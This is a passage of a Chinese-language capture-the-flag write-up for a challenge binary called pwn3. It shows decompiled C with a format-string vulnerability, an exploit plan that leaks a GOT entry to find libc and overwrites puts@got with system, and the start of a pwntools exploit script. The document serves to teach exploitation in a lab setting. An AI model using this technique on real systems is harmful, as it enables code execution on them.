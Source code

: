 首先分析程序，可以發現程序似乎主要實現了一個需密碼登錄的 ftp，具有 get，put，dir 三個基本功能。大概瀏覽一下每個功能的代碼，發現在 get 功能中存在格式化字符串漏洞

```C
int get_file()
{
  char dest; // [sp+1Ch] [bp-FCh]@5
  char s1; // [sp+E4h] [bp-34h]@1
  char *i; // [sp+10Ch] [bp-Ch]@3

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 0x28);
      return printf(&dest);
    }
  }
  return printf(&dest);
}
```

#### 漏洞利用思路

既然有了格式化字符串漏洞，那麼我們可以確定如下的利用思路

- 繞過密碼
- 確定格式化字符串參數偏移
- 利用 put@got 獲取 put 函數地址，進而獲取對應的 libc.so 的版本，進而獲取對應 system 函數地址。
- 修改 puts@got 的內容爲 system 的地址。
- 當程序再次執行 puts 函數的時候，其實執行的是 system 函數。

#### 漏洞利用程序

如下

```python
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')


def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data


def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)


```